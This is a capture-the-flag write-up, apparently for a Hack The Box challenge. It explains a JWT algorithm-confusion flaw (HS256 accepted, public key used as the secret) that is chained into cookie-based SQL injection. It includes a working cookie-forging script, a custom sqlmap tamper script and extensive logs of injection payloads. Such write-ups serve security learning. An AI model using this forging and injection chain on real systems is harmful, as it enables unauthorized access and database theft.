



# Under Construction
In this we challenge, we are given a website that is under construction, and expected to find the flag. We also have the source code of the challenge, which will probably make things easier.


# TL;DR
- Register manually to the website, and notice that there is a `jwt` token in session cookie when we logged in.
- The token has a public key in its data section. This was the same public key used for signing jwt tokens.
- In the source code, one can see that `HS256` is an alternative algorithm for jwt decoding. HS256 is a symmetric signing method. Since we have the public key, we can forge the session cookie by symmetric signing method.
- Using a custom tamper script and providing it to `sqlmap`, we acquire the flag by cookie-based sql injection attack.

#### Keywords: `sqlmap`, `cookie SQLi`, `jwt`, `custom tamper script`, `HS256`, `symmetric key`

# How to get the flag?
When we opened the challenge, we got "Internal Server Error" message. I checked the source code and found out that there was a `/auth` route. Over there, we see a user login and register form. I tried to register an arbitrary *admin* user, and it worked so that I could be able to login later on.



When logged in with *admin* user that we just created, I checked the request and response header, cookies etc. In the response cookie, I noticed that there was a cookie named `session` and its value looked like a `jwt` token (dots give it away).


Using an online jwt decoder (http://calebb.net/), I checked the token's header and data sections.


- The token was encrypted using `RS256`.
- I could see __username__:admin was in the data section.
- There was a `public key` in __pk__ field used in something that we do not know yet.
- There was also an optional jwt claim: *iat*. It means when the token was issued at.

And that was it. There was not anything interesting in the website. But, we have the source code still to be analyzed in more detail.

I checked the existing routes from `src/routes/index.js`, and particularly the logic in `/` route. When we make a requst, `AuthMiddleware` does something (it probably authenticates as the name suggests) and if it succeeds, it puts the username to `req.data`. Then, we query the user, and get a response according to the user's existence. Let's check `DBHelper.getUser` function.


```javascript
...
router.get('/', AuthMiddleware, async (req, res, next) => {
    try{
        let user = await DBHelper.getUser(req.data.username);
        if (user === undefined) {
            return res.send(`user ${req.data.username} doesn't exist in our database.`);
        }
        return res.render('index.html', { user });
    }catch (err){
        return next(err);
    }
});
```

The server uses `SQLite`. The query in `getUser` function looks like vulnerable to SQL injection given that we can provide __username__ value. Let's check what is `AuthMiddleware` doing.

```javascript
const sqlite = require('sqlite3');

const db = new sqlite.Database('./database.db', err => {
    if (!!err) throw err;
    console.log('Connected to SQLite');
});

module.exports = {
    getUser(username){
        return new Promise((res, rej) => {
            db.get(`SELECT * FROM users WHERE username = '${username}'`, (err, data) => {
                if (err) return rej(err);
                res(data);
            });
        });
    },
...
```

From `src/middleware/AuthMiddleware.js`, we can see that we get __username__ by decoding `jwt` token from *session* cookie. Let's check how do we decode it.
```javascript
const JWTHelper = require('../helpers/JWTHelper');

module.exports = async (req, res, next) => {
    try{
        if (req.cookies.session === undefined) return res.redirect('/auth');
        let data = await JWTHelper.decode(req.cookies.session);
        req.data = {
            username: data.username
        }
        next();
    } catch(e) {
        console.log(e);
        return res.status(500).send('Internal server error');
    }
}
```

In `src/helpers/JWTHelper.js`, we can see in `decode` function we have a list algorithms that can be used for decoding jwt token: `RS256` and `HS256`. Moreover, when jwt token is signed, the server is adding the public key to the token's data. 

```javascript
const fs = require('fs');
const jwt = require('jsonwebtoken');

const privateKey = fs.readFileSync('./private.key', 'utf8');
const publicKey  = fs.readFileSync('./public.key', 'utf8');

module.exports = {
    async sign(data) {
        data = Object.assign(data, {pk:publicKey});
        return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
    },
    async decode(token) {
        return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
    }
}
```

__Here is the important part:__
> `HS256` is a symmetric algorithm. Since we have the public key and `HS256` is used as an alternative JWT decode algorithm, we can forge the session cookie by symmetric signing method. The forged session cookie will include SQL injection payload on username parameter.

I wanted to validate the idea first. Using python, `requests` and `pyjwt==0.4.3` modules, let's encode a jwt token using the public key we found, and make a request.

```python
#!/usr/bin/env python3

import os
os.system("python -m pip install requests --no-cache-dir")
# I want to be able to sign a jwt using a public key as secret; hence, pyjwt==0.4.3.
# https://security.stackexchange.com/a/187279
os.system("python -m pip install pyjwt==0.4.3 --no-cache-dir")
import requests
import jwt
import datetime

URL = "http://178.128.46.168:32678/"
PUB_KEY = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n"
USER = 'admin' # NOTE: this user exists, we just created.
encoded = jwt.encode({ "username": USER, "pk": PUB_KEY, "iat": datetime.datetime.utcnow() },
                     PUB_KEY, algorithm="HS256")
print(encoded)
s = requests.Session()
c = requests.cookies.create_cookie(name='session', value=encoded.decode('UTF-8'))
s.cookies.set_cookie(c)
r = s.get(URL)
assert "doesn't exist in our database." not in r.text, "error"
print(r.text)
```

Yes, the request succeeds as I could see the same message as before. So we can sign a jwt token, cool.
```bash
...
                    Message from developers
                </div>
                <div class="card-body">
                    Welcome test<br>
                    This site is under development. <br>
                    Please come back later.
                </div>
            </div>
        </div>    
    </div>
</body>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
</html>
```

We do not know what kind of SQL injection payload that we need to use. To find automatically the payload, I used `sqlmap`. Each payload in session cookie must be signed. We can use `--tamper` argument of `sqlmap` and a custom script as a value to achieve this. Here is the tamper script I implemented:

```python
#!/usr/bin/env python3

import os
import datetime

try:
    import jwt
except ImportError:
    os.system("python -m pip install pyjwt==0.4.3 --no-cache-dir")
    import jwt

##
# NOTE: sqlmap custom tamper script related
from lib.core.data import kb
from lib.core.enums import PRIORITY
import logging
sqlmaplog = logging.getLogger("sqlmapLog")
__priority__ = PRIORITY.NORMAL


def dependencies():
    pass


def tamper(payload, **kwargs):
    sqlmaplog.info(f"[jwt_tamper.py] Sign payload: {payload}")
    PUB_KEY = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n"
    cookieval = jwt.encode({"username": payload, "pk": PUB_KEY, "iat": datetime.datetime.utcnow()},
                           PUB_KEY, algorithm="HS256").decode('UTF-8')
    sqlmaplog.debug(f"[jwt_tamper.py] jwt: {cookieval}")
    return cookieval
```

To start the cookie-based SQL injection attack, I executed sqlmap like below:

```bash
$ sqlmap -u "178.128.46.168:32678" --dbms "SQLite" --cookie "session=*" --tamper jwt_tamper.py 
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.12#stable}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:28:28 /2021-01-06/

[14:28:28] [INFO] loading tamper module 'jwt_tamper'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 
[14:28:31] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:28:31] [WARNING] provided value for parameter 'session' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:28:31] [INFO] testing connection to the target URL
[14:28:31] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[14:28:31] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
[14:28:31] [INFO] testing if the target URL content is stable
[14:28:31] [INFO] target URL content is stable
[14:28:31] [INFO] testing if (custom) HEADER parameter 'Cookie #1*' is dynamic
[14:28:31] [INFO] [jwt_tamper.py] Sign payload: 5852
do you want to URL encode cookie values (implementation specific)? [Y/n] n
[14:28:33] [INFO] (custom) HEADER parameter 'Cookie #1*' appears to be dynamic
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: "..('(,.((
[14:28:33] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: 'AJIOoW<'">hpAJYr
[14:28:33] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
[14:28:33] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ) AND 6105=2750 AND (7223=7223
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ) AND 3327=3327 AND (4322=4322
[14:28:33] [INFO] [jwt_tamper.py] Sign payload:  AND 3799=7614
[14:28:33] [INFO] [jwt_tamper.py] Sign payload:  AND 3327=3327
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ') AND 5360=3498 AND ('IPqL'='IPqL
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ') AND 3327=3327 AND ('SmCF'='SmCF
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ' AND 2343=9405 AND 'mNzi'='mNzi
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: ' AND 3327=3327 AND 'mxHc'='mxHc
[14:28:33] [INFO] [jwt_tamper.py] Sign payload:  AND 4276=8667-- ghVn
[14:28:33] [INFO] [jwt_tamper.py] Sign payload:  AND 3327=3327-- IpVZ
[14:28:33] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: (SELECT (CASE WHEN (2819=4309) THEN '' ELSE (SELECT 4309 UNION SELECT 5264) END))
[14:28:33] [INFO] [jwt_tamper.py] Sign payload: (SELECT (CASE WHEN (6692=6692) THEN '' ELSE (SELECT 7884 UNION SELECT 2322) END))
[14:28:34] [INFO] testing 'Generic inline queries'
[14:28:34] [INFO] [jwt_tamper.py] Sign payload: (SELECT CONCAT(CONCAT('qbzvq',(CASE WHEN (7732=7732) THEN '1' ELSE '0' END)),'qqzpq'))
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] n
[14:28:43] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) ORDER BY 1-- APEg
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL-- rAGF
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL-- kuJJ
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL-- Soik
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL-- LKmi
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- Dsqv
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- HloX
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- ZjzR
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- GQsS
[14:28:43] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- GVoY
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ) UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- GxQY
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  ORDER BY 1-- OBkK
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL-- gTVU
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL-- oJSI
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL-- oxkW
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL-- VaYS
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- GHIy
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- bzGM
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- YivV
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- tOZk
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- rsCg
[14:28:44] [INFO] [jwt_tamper.py] Sign payload:  UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- wsBB
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ') ORDER BY 1-- ziPX
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL-- OOOJ
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL-- EKdF
[14:28:44] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL-- PPWK
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL-- QwMq
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- wunZ
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- RarC
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- KmZx
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- nnhy
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- eomS
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- JFMa
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ' ORDER BY 1-- qGmN
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL-- juyZ
[14:28:45] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL-- ZPXO
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL-- gGLU
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL-- WPVI
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL-- nGgl
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL-- gFEV
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- nxMB
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- gRDT
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- rCUa
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- uBIg
[14:28:46] [INFO] target URL appears to be UNION injectable with 3 columns
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT 'qbzvq'||'krsFFNKAMzHRqUkiTCPcnMkblcmYnfArqOjoqASU'||'qqzpq',NULL,NULL-- qbyI
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL-- HQFt
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL UNION ALL SELECT NULL,'qbzvq'||'pPMOnTOXRBdVUKLnnuLDAmFjOhWHVMrOqdXpsPWo'||'qqzpq',NULL-- RxKQ
[14:28:46] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 1 to 10 columns' injectable
[14:28:46] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (16=16) THEN 1 ELSE 0 END))||'qqzpq',NULL-- yTEq
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (16=34) THEN 1 ELSE 0 END))||'qqzpq',NULL-- OtcS
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (16=42) THEN 1 ELSE 0 END))||'qqzpq',NULL-- IBbP
[14:28:46] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (42=34) THEN 1 ELSE 0 END))||'qqzpq',NULL-- vMyu
[14:28:47] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (34=34) THEN 1 ELSE 0 END))||'qqzpq',NULL-- TBqB
[14:28:47] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (42 34) THEN 1 ELSE 0 END))||'qqzpq',NULL-- DQva
(custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 66 HTTP(s) requests:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: session=' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL-- HQFt
---
[14:28:52] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[14:28:52] [INFO] testing SQLite
[14:28:52] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (LAST_INSERT_ROWID()=LAST_INSERT_ROWID()) THEN 1 ELSE 0 END))||'qqzpq',NULL-- NVaR
[14:28:53] [INFO] confirming SQLite
[14:28:53] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (SQLITE_VERSION()=SQLITE_VERSION()) THEN 1 ELSE 0 END))||'qqzpq',NULL-- qcvb
[14:28:53] [INFO] actively fingerprinting SQLite
[14:28:53] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,'qbzvq'||(SELECT (CASE WHEN (RANDOMBLOB(-1)>0) THEN 1 ELSE 0 END))||'qqzpq',NULL-- SLsn
[14:28:53] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[14:28:53] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 28 times
[14:28:53] [INFO] fetched data logged to text files under '/home/vscode/.local/share/sqlmap/output/178.128.46.168'

[*] ending @ 14:28:53 /2021-01-06/
```

After some time `sqlmap` has successfully identified an injection point.

> session=' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL-- HQFt

I executed sqlmap again this time with `--dump` argument, I got the flag after a while. The flag was in Database: SQLite_masterdb, Table: flag_storage:
> 
    +----+---------------------------------+
    | id | top_secret_flaag                |
    +----+---------------------------------+
    | 1  | HTB{d0n7_3xp053_y0ur_publ1ck3y} |
    +----+---------------------------------+

Here is the output:
```bash
$ sqlmap -u "178.128.46.168:32678" --dbms "SQLite" --cookie "session=*" --tamper jwt_tamper.py --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:29:13 /2021-01-06/

[14:29:13] [INFO] loading tamper module 'jwt_tamper'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 
[14:29:14] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:29:14] [WARNING] provided value for parameter 'session' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[14:29:14] [INFO] testing connection to the target URL
[14:29:14] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[14:29:14] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: session=' UNION ALL SELECT NULL,'qbzvq'||'FKKbYYsjqJCVnRcqlOluUCuTOkJLlOVredGcaaMy'||'qqzpq',NULL-- HQFt
---
[14:29:14] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[14:29:14] [INFO] testing SQLite
[14:29:14] [INFO] confirming SQLite
[14:29:14] [INFO] actively fingerprinting SQLite
[14:29:14] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[14:29:14] [INFO] fetching tables for database: 'SQLite_masterdb'
[14:29:14] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(COUNT(tbl_name) AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_master WHERE type=CAST(X'7461626c65' AS TEXT)-- zCbl
do you want to URL encode cookie values (implementation specific)? [Y/n] 
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(tbl_name AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM sqlite_master WHERE type=CAST(X'7461626c65' AS TEXT) LIMIT 0,1),NULL-- BsEq
[14:29:17] [INFO] retrieved: 'flag_storage'
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(tbl_name AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM sqlite_master WHERE type=CAST(X'7461626c65' AS TEXT) LIMIT 1,1),NULL-- prNa
[14:29:17] [INFO] retrieved: 'sqlite_sequence'
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(tbl_name AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM sqlite_master WHERE type=CAST(X'7461626c65' AS TEXT) LIMIT 2,1),NULL-- Tvkn
[14:29:17] [INFO] retrieved: 'users'
[14:29:17] [INFO] fetching columns for table 'sqlite_sequence' in database 'SQLite_masterdb'                                       
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,MIN(CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(sql AS TEXT),CAST(X'20' AS TEXT)))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_master WHERE tbl_name=CAST(X'73716c6974655f73657175656e6365' AS TEXT)-- NobE
[14:29:17] [INFO] fetching entries for table 'sqlite_sequence' in database 'SQLite_masterdb'
